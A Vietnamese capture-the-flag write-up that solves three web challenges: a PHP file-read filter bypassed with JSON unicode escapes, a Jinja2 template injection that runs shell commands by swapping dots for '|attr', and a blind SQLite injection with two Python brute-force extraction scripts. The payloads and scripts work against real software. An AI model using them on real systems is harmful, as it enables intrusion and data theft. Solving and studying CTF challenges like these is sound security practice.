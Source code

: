 # WannaWinFreshman-Writeup
# Bài 1 Warmup PHP:
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/63658021-4722-4417-b2ed-48eb746d03fe)

- Tóm tắt đề thì đại khái là đề bảo chúng ta phải POST data lên dưới dạng json có key là **page** và sau đó chương trình sẽ server sẽ decode ra và đọc file trong server
- Bài này mới vào thì mình nghĩ đến LFI với filter base64 nhưng khổ nổi là nó chặn ngay chữ php, data, file nên mình không thể chuyển qua base64 được
- Sau gần 30 phút - 1 tiếng thì mình tìm được một bài viết dưới đây [LINK](https://trustfoundry.net/2018/12/20/bypassing-wafs-with-json-unicode-escape-sequences/)
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/c7280b09-24af-47b3-9a0e-e82ed1894471)
- Cơ bản là json_decode nó sẽ decode luôn unicode trong biểu diễn hex vì vậy mình chỉnh lại cái payload của mình từ 
`php://filter/convert.base64-encode/resource=/flag`
thành
`\u0070hp://filter/convert.base64-encode/resource=/flag`
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/463ea634-efa7-4c42-b0d9-92341d335d5b)
- Decode base64 và ra flag
- Flag: **W1{w3lc0m3_w3b_w4rrj0rs}**
- ~~Funfact: Payload mình làm ra bài này là encode gần như tất cả các ký tự thành dạng unicode biểu diễn hex làm mình tốn rất nhiều thời gian <(")~~
# Bài 2 Namename:
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/d8bc1de3-0f9a-45ff-9878-141cd0df45ad)
- Bài này cho 1 đường link và không cho thêm gì khác sau khi xem source của web này thì thấy có 1 đường dẫn là `/wannaw1n`
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/c1b22bdc-3266-495f-b6e0-a7edcd95eef0)
- Sau khi đi tới đường dẫn /wannaw1n mình nhận ra ngay đây là SSTI jinja2 ( Mình sẽ nói về rõ cách SSTI này lần sau :v)
- Mình ném ngay payload của mình vào thử xem RCE được không
- Payload : `{{().__class__.__base__.__subclasses__()[279]('ls',shell=1,stdout=-1).communicate()}}`
- Và nó bị chặn ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/77f0aa01-5dfa-4ad9-9c2b-9e6ba8736812)
- Sau vài thử nghiệm thì có vẽ nó chặn dấu . nên mình chuyển qua |attr

- Payload mới: `{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('ls',shell=1,stdout=-1)|attr('communicate')()}}`
- Và ok nó hoạt động tốt
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/2883ff9a-261d-4332-81c6-937c70020427)
- Bây giờ sửa lại payload từ `ls` sang `cat flag.txt` thôi
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/28f86e01-25e7-4e51-8e67-9e53225a5f43)
- Và không nó vẫn bị chặn cái gì đấy nên mình sử dụng cách này bypass filter
- `{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('cat+*',shell=1,stdout=-1)|attr('communicate')()}}`
- Cách này sẽ đọc hết tất cả các file trong thư mục hiện tại và tìm được flag
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/2c578c66-f98c-43dd-a306-e629ab3f7137)
- Flag: **W1{U_are_master_in_SSTI}**
- Ngoài lề: ~~ Thật ra thì còn 1 cách bypass tà đạo nữa mà sau này mình sẽ viết 1 bài riêng về cái này mình nghĩ cách này bypass cũng kha khá <(") ~~
# Bài 3 Solite:
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/5d20fa22-0fc9-4f4c-8039-7de1d61b594f)
- Bài này mình khá tiếc vì mình đọc không kỉ filter nên mình không làm được
- Tóm tắt đề thì bài này chỉ cho chúng ta cái page như này mà làm sao đó mà tìm được flag
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/7d1fe742-a26a-4705-9888-f2d827d562b5)
- Sau khi nghiên cứu và được nghe 1 số gợi ý thì mình hiểu được đây là Blind SQL Injection
- Nhìn kĩ source thì có 1 lỗ hổng cho chúng ta khai thác là substr không bị filter vì trong filter là substrs thứ mà không hề tồn tại
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/ae13e11e-52fe-4bb5-8360-c2095b361fc4)
- Đây là query của bài
  ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/317e6d80-27b4-41c2-b14b-c4b6e6d84b37)
- Sau một vài thử nghiệm thì mình tìm được các để in ra tên của bảng
- `Payload: 1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),i,1) is 'a'--`
- Tóm tắt :
- Payload này sau khi gửi lên server thì server sẽ thực hiện 1 query như sau `SELECT * FROM API WHERE id LIKE '%1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--%'`
- `select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'` sẽ trả về tên của tất cả các bảng
- `substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1)` sẽ lấy 1 ký tự a bắt đầu từ vị trí i
` 1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--` cái này sẽ so sánh ký tự mà substr vừa cắt ra nếu chính xác thì sẽ thực hiện lệnh đằng trước là `SELECT * FROM API WHERE id LIKE '%1'` và trả về cột id=1 nếu sai thì nó không thực hiện và chẳng trả về gì cả
- Đây là script mình tìm tên của bảng
```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="
payload="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--"
table_name = ""
haha = 0
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%%'),%d,1) is '%c'--" %(i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            table_name += ps
            print("Table names: ",table_name)
            haha +=1
    if haha < i:
        break
print("Success all the names of the tables are:",table_name)
```
- Và tìm ra được tên của các bảng là
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/32f3cf53-f620-48af-8da5-d07cfca0a405)
`Tables: API,flag_c1abd148_acae_40be_a953_eae333f90da0`
- Bây giờ dựa vào cái trên lấy ra flag từ bảng `flag_c1abd148_acae_40be_a953_eae333f90da0` thôi
- Scripting của mình
```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="

table_name = "flag_c1abd148_acae_40be_a953_eae333f90da0"
#payload = "1' and substr((select flag from flag_c1abd148_acae_40be_a953_eae333f90da0),1,1) is 'a'--"
haha = 0
flag =""
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select flag from %s),%d,1) is '%c'--" %(table_name,i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            flag += ps
            print("Flag is: ",flag)
            haha +=1
    if haha < i:
        break
print("Here is your flag:",flag)
```
- Flag: **W1{I_th1nk_u_r_so_lite^_^}**
- ~~**Mấy bài còn lại mình chưa biết làm do dark quá**~~










